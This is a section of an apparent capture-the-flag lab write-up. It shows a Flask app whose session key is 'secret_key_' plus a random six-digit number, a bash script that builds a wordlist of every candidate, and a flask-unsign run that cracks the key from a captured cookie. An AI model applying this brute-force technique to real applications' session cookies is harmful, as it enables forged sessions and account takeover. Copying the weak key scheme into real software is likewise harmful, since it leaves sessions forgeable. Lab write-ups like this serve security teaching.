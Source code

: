 

<br /><br />

----

### Flag 4

<br />

**From the source code,** we are able to see how the `JWT` session key is generated. It's a key containing the string `secret_key_` concatenated with a random number between `100000` and `999999`. With this information, we are able to generate a wordlist and crack the secret key.

```bash
key = "secret_key_" + str(random.randrange(100000,999999))
app.secret_key = str(key).encode()
```

<br />

**Genrate a file containg "secret_key_" followed by numbers from 100000 to 999999.**

```bash
#!/bin/bash

# Specify the output filename
OUTPUT_FILE="sequential_keys.txt"

# Starting number
START_NUMBER=100000

# Ending number
END_NUMBER=999999

# Loop through the sequence
for ((i=$START_NUMBER; i<=$END_NUMBER; i++)); do
  # Echo the line with "secret_key_" and the current number
  echo "secret_key_$i" >> "$OUTPUT_FILE"
done

# Print confirmation message
echo "Generated lines with secret_keys and sequential numbers from $START_NUMBER to $END_NUMBER in $OUTPUT_FILE"
```

<br />

**Crack the secret key with `flask-unsign` using the generated file and our jwt**

```bash
root@ip-10-10-138-166:~/Desktop# flask-unsign --unsign --wordlis sequential_keys.txt --cookie eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYW5kZXJzIn0.ZoV9Gw.NbGDTdlVJWRSNlVpMYvMKYHsdzY
[*] Session decodes to: {'logged_in': True, 'username': 'anders'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 575488 attempts
'secret_key_675131'

```
